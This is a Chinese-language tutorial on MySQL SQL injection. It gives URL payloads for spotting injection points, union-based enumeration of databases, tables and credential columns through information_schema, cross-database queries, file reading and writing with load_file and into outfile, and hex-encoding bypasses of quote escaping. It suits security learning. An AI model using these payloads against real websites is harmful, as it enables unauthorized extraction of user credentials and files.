

# MySQL注入

MySQL的数据库注入高权限可以进行文件读写，获取数据等操作。



## SQL存在注入的条件

```sql
www.mytest.com/index.php?id=1 # 存在注入

www.mytest.com/?id=1 # 存在注入,这个可能是省略了主页了

www.mytest.com/?id=1&x=2 # 存在注入

www.mytest.com/index.php # 也是存在注入的,可能是post注入(是存在一些条件的)
```

### 判断哪个有注入

参数x有注入，一下哪个注入测试正确?

```sql
www.mytest.com/news.php?y=1 and 1 = 1&x=2 （X）# 因为这个x不存在注入点，这个注入点是在y上的

www.mytest.com/news.php?y=1&x=2 and 1 = 1 （√）

www.mytest.com/news.php?y=1 and 1 = 1&x=2 and 1 = 1 （√）

www.mytest.com/news.php?xx=1 and 1 = 1&xxx=2 and 1 = 1 （X）
# 这里面没有x这个接受变量
```

## 如何判断注入点

**老办法:**

```sql
and 1=1--->页面正常,这样的原理是将and 1=1带入到数据库进行查询，带有逻辑的查询

and 1=2--->页面错误，如果页面错误，就存在注入，因为带入数据库查询了，数据库没有查到，所以返回flase,网页页面就错误了

这两条命令结合就可能存在注入点
```

**新方法：**

随便在接受变量地址的后面写上一串字符串/数字,因为要带入到数据库进行查询，随便输入的字符串肯定是不存在的，数据库一定会报错，这样就可以判断是否有注入。这样可以绕过一些WAF。

本来是URL：`www.mytest.com/index.php?id=1`带入数据库查询应该是`select * from users where id =1`,这条语句带入数据库查询是正常的，但是如果你随便输入字符串的话带入查询可能出错`select * from users where id =1love`;这条语句代入数据库查询就是错误的。所以也页面也会报错。

## 注入

### 手工注入：

#### 联合注入：Union

使用union关键字，对两个select语句进行联合查询；使用前提是前后查询的语句必须拥有相同数量的列（字段），列也必需拥有相同的数据类型。

##### 判断注入：

1. 先使用order by子句进行数据列的判断，判断有多少列，小于列数的正确，返回正确，大于列数的返回错误。因为超过了那个列order by 就已经不能够再排序了。为什么要使用order by子句，去查看数据库的order by子句的原理。[[数据库/Order By子句/index#Order By子句|查看order by用法]]，所有的排序都是根据查询出来的表进行的，而不是根据原来的表进行的。如果是`select *`那么有很多列，如果是`select user,password`，那么就只有2列可以排序。
3. 判断出这个数据表有多少列之后，使用union select 相应的数字进行数据的显示，但是前提是必须报错，相应的数字就会显示到对用WEB页面上。`eg:union select 1,2,3,4`，具体为什么这样做去查看UNION子句的用法。[[数据库/Union子句/index#Union子句|查看Union Select的用法]]

3. 可以在对应的数字上使用相应的函数，然后查看出对应的你想要的数据库信息。

   ```sql
   信息收集
   数据库版本 version();
   数据库名字 database();
   数据库用户 user();
   操作系统 @@version_compile_os
   ```

##### 判断数据库的版本

根据上面的步骤判断出相应数据库的版本。

###### 5.0以上高版本

在MySql5.0以上版本中mysql存在一个自带数据库名为information_schema，它是一个存储记录有所有数据库名，表名，列名的数据库，也相当于可以通过查询他获取指定数据库下面表名或列明信息。

```mysql
information_schema.tables; # 记录所有表名信息的表
information_schema.columns; # 记录所有列名信息的表
information_schema.schemata; # 记录所有数据库的表

table_name; # 表名
column_name; # 列名
table_schema; # 数据库名,这个是在tables这个数据库中的，这个是每个表所对应的数据库
schema_name; # 数据库名,这个是在schemata这个数据库中的，这个是所有的表

group_concat()查询所有 # 查询这个列的所有信息
```

注：数据库中符号"."代表下一级的意思eg:mydatabase.mytable

###### 实例：

```sql
查询指定数据库名下的表名信息：
www.mytest.com/index.php?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema = '数据库的名字';

查询指定表名下的列名信息：
www.mytest.com/index.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = '表名';

查询指定的数据：
www.mytest.com/index.php?id=-1 union select 1,username,password,4 from 表名
如果表中又多个数据要是用limit来进行猜解
```

###### 5.0以下底版本

只能通过猜的方式。

#### 跨库注入：

跨库注入需要root权限，当这个网站没有注入时，使用这种方法。有注入的话直接使用database();这个函数即可。

##### 实例：

```sql
获取所有的数据库名
www.mytest.com/index.php?id=-1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata;

获取指定数据库名下的表名信息
www.mytest.com/index.php?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库名'

获取数据库上一步查询出来的表名下的列名信息：
www.mytest.com/index.php?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='表名' and table_schema='指定数据库名'
为什么后面需要加上and呢，因为eg有很多给数据库，但是每个数据库下面都有一个admin表，这时候没有办法进行区分查询出来的是否是指定数据库下的表名的列名信息，故需要加上and。

获取指定数据库下的表数据
www.mytest.com/index.php?id=-1 union select 1,列字段1,列字段2,4 from 数据库名.表名
# 根据上面的内容就直接知道了字段的内容，就不需要爆字段了
```

#### 文件读写操作

load_file()：读取文件 `select load_file('d:/123.txt');`

```mysql
[mysqld]
secure_file_priv=
# 这是MySql的配置文件，不同的值有不同的效果，具体怎么样去网上查。
```

`into outfile`或`into dumpfile`：导出函数 `select 'x' into outfile 'd:/www.txt';`

`mysql`中涉及到读写操作，必然离不开`secure_file_priv`参数，它的值限制`load` ，`data`，`into outfile`，`load_file()`函数可作用的文件位置

##### 常见写入文件问题

1. MySQL魔术引号，魔术引号引导开关

   `magic_quotes_gpc=On`将这个打开，是`PHP5.2.17`以上版本的

   如何解决：

   使用编码绕过，将其转化为16进制。

   注意：使用十六进制的就不需要使用单引号了（eg:load_file('')这种单引号）。因为编码之后就不再使用单引号了，所以可以绕过。

2. PHP内置函数

   或者是PHP内部的函数addslashes()也是和魔术引号是同一个作用。eg:`load_file(0x643A2F7777772E747874)`

3. 内置函数的注入

   eg:`is_int()`，这是PHP的函数，纯数字没有办法注入，直接跑路，没有办法绕过

   假设一个变量接受的是一个数字型的值，然而你要进行文件的读写必须传入字符，这时候是没有办法进行绕过的。

4. WAF绕过

   这个后续在补充。

##### 文件读写的路径问题

路径获取常见的方法：

1. 报错显示（百度快照）
2. 遗留文件
3. 漏洞报错(CMS去网上查，爆路径)
4. 平台配置文件，爆破
5. ......

常见读取文件列表：

https://blog.csdn.net/weixin_30292843/article/details/99381669?spm=1001.2014.3001.5506

### 注入的注释

`--`是MySQL的单行注释，是用来注释后面的Limit语句的。`--`前后是要有空格的。在URL中一般后面要加上`+`号，`--+`，注释后面的语句。`#`也可以被当作注释


